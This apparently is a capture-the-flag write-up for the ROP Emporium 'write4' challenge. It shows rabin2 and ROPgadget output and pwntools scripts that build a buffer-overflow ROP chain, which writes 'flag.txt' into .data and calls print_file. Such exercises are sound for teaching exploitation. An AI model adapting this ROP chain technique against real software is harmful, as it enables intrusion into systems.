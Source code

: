 # WRITE4

[write4](https://ropemporium.com/challenge/write4.html)

As the author wrote under the title of the challenge's article,
solving `write4` will require *"proper gadget use"*. This is also the challenge where we can use ROPgadget's ropchain feature to create gadget chains for us to write a string into memory.

Based on what was written in the challenge article, we need to somehow call the `print_file()` function with one argument: the path to the flag (relative or absolute, doesn't matter). Easy right? Just find a stray string that says "flag.txt" using `rabin2` and...

```
$ rabin2 -z ./write4                          
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000006b4 0x004006b4 11  12   .rodata ascii nonexistent
```

...nothing.

Since we don't have any random strings in the binary that we can piggyback off of, we have to create our own "flag.txt" and copy it to somewhere we know we can find it.

So where can we put our string? Let's have a look at the available sections in the `write4` binary. We need a section that we can write our string to, so look out for a section with "w" under the "perm" column.

```
$ rabin2 -S ./write4
[Sections]

nth paddr        size vaddr       vsize perm name
―――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00000000    0x0 0x00000000    0x0 ---- 
1   0x00000238   0x1c 0x00400238   0x1c -r-- .interp
2   0x00000254   0x20 0x00400254   0x20 -r-- .note.ABI-tag
3   0x00000274   0x24 0x00400274   0x24 -r-- .note.gnu.build-id
4   0x00000298   0x38 0x00400298   0x38 -r-- .gnu.hash
5   0x000002d0   0xf0 0x004002d0   0xf0 -r-- .dynsym
6   0x000003c0   0x7c 0x004003c0   0x7c -r-- .dynstr
7   0x0000043c   0x14 0x0040043c   0x14 -r-- .gnu.version
8   0x00000450   0x20 0x00400450   0x20 -r-- .gnu.version_r
9   0x00000470   0x30 0x00400470   0x30 -r-- .rela.dyn
10  0x000004a0   0x30 0x004004a0   0x30 -r-- .rela.plt
11  0x000004d0   0x17 0x004004d0   0x17 -r-x .init
12  0x000004f0   0x30 0x004004f0   0x30 -r-x .plt
13  0x00000520  0x182 0x00400520  0x182 -r-x .text
14  0x000006a4    0x9 0x004006a4    0x9 -r-x .fini
15  0x000006b0   0x10 0x004006b0   0x10 -r-- .rodata
16  0x000006c0   0x44 0x004006c0   0x44 -r-- .eh_frame_hdr
17  0x00000708  0x120 0x00400708  0x120 -r-- .eh_frame
18  0x00000df0    0x8 0x00600df0    0x8 -rw- .init_array
19  0x00000df8    0x8 0x00600df8    0x8 -rw- .fini_array
20  0x00000e00  0x1f0 0x00600e00  0x1f0 -rw- .dynamic
21  0x00000ff0   0x10 0x00600ff0   0x10 -rw- .got
22  0x00001000   0x28 0x00601000   0x28 -rw- .got.plt
23  0x00001028   0x10 0x00601028   0x10 -rw- .data
24  0x00001038    0x0 0x00601038    0x8 -rw- .bss
25  0x00001038   0x29 0x00000000   0x29 ---- .comment
26  0x00001068  0x618 0x00000000  0x618 ---- .symtab
27  0x00001680  0x1f6 0x00000000  0x1f6 ---- .strtab
28  0x00001876  0x103 0x00000000  0x103 ---- .shstrtab
```

From what we know about a layout of an x86 binary, there are 3 main sections we should care about: `.text`, `.data` and `.bss`. The `.text` section is where all of our executable code is found and is not writeable while the `.data` and `.bss` sections contain global variables that the program can use. From what we can see in the output of `rabin2 -S ./write4`, we know we can write to either `.data` or `.bss`. Since `.data` contains pre-initialised data and is larger (at 0x10 or 16 bytes), we will write our string to `.data` instead of `.bss` to guarantee our exploit will work.

Now that we know where to copy our string to, we have to figure our how to copy our string to `.data`. ROP Emporium has provided us with a useful hint: `mov [reg], reg`. If we can find a gadget like this, we can copy the contents of one register to the location pointed to by another register.

Let's employ `ROPgadget` to find our gadget. If we scroll down all the way to the end, this is what we see.

```
$ ROPgadget --binary ./write4 --ropchain
...
ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

        [+] Gadget found: 0x400628 mov qword ptr [r14], r15 ; ret
        [+] Gadget found: 0x400690 pop r14 ; pop r15 ; ret
        [+] Gadget found: 0x400692 pop r15 ; ret
        [-] Can't find the 'xor r15, r15' gadget. Try with another 'mov [reg], reg'

        [-] Can't find the 'mov qword ptr [r64], r64' gadget
```

We've found 2 useful gadgets:

```
0x400628 : mov [r14], r15 ; ret
0x400690 : pop r14 ; pop r15 ; ret
```

The first gadget allows us to copy the contents of `r15` to the location pointed to by `r14` while the second gadget allows us to copy the contents of the stack to `r14` and `r15` respectively. Can you see how we can create an ROP chain now?

In x86_64, each register is 64 bits wide, or 8 bytes, which means that we can copy 8 bytes one by one using the `mov [r14], r15 ; ret` gadget. Since "flag.txt" is 8 bytes long, we only need one copy to write our string into `.data`.

```python
# ./win.py
from pwn import *
...
attack = b"A"*0x28
# copy location of .data and flag.txt to r14 and r15 respectively
attack += p64(0x400690) + p64(0x601028) + b"flag.txt"
# copy r15 to .data
attack += p64(0x400628)
# call print_file with the location of .data as the first argument
# you should be able to find the appropriate gadgets and functions
# yourself using ROPgadget and rabin2 yourself
attack += p64(0x400693) # pop rdi ; ret
attack += p64(0x601028) # .data
attack += p64(0x4004e6) # ret
attack += p64(0x400510) # print_file
io.sendline(attack)
...
```

If you run this script, the program should happily print out the flag for you because in `write4`, .data` is filled with `0`s when we sent our buffer overflow attack.

If `.data` was filled with actual data (like in real-world programs), it would be unlikely that `.data` would be just zeroes when we sent our attack. Remember that in code generated by (relatively) low-level languages like C and C++, strings must be null-terminated. If we had blindly copied "flag.txt" to `.data`, it wouldn't be properly null-terminated and the string we pass to `print_file` would most likely be a garbled mess like "flag.txt7987y894yu9r834y8fue...".

How do we prevent this? Simple! We create our own null-terminator and copy it to the location after "flag.txt". The procedure is the same as copying "flag.txt", just that we have to make sure that r14 contains the location of `.data` plus an extra 8 bytes so that we don't overwrite "flag.txt".

```python
# ./win.py
from pwn import *
...
attack = b"A"*0x28

# copy location of .data and flag.txt to r14 and r15 respectively
attack += p64(0x400690) + p64(0x601028) + b"flag.txt"
# copy r15 to .data
attack += p64(0x400628)

# copy location of .data + 8 to r14 and null-terminator to r15
# make sure r15 is 8 bytes long
# you can do this by multiplying the null byte "\x00" by 8
attack += p64(0x400690) + p64(0x601028+8) + b"\x00"*8
# copy r15 to .data+8
attack += p64(0x400628)

# call print_file with the location of .data as the first argument
# you should be able to find the appropriate gadgets and functions
# yourself using ROPgadget and rabin2 yourself
attack += p64(0x400693) # pop rdi ; ret
attack += p64(0x601028) # .data
attack += p64(0x4004e6) # ret
attack += p64(0x400510) # print_file

io.sendline(attack)
...
```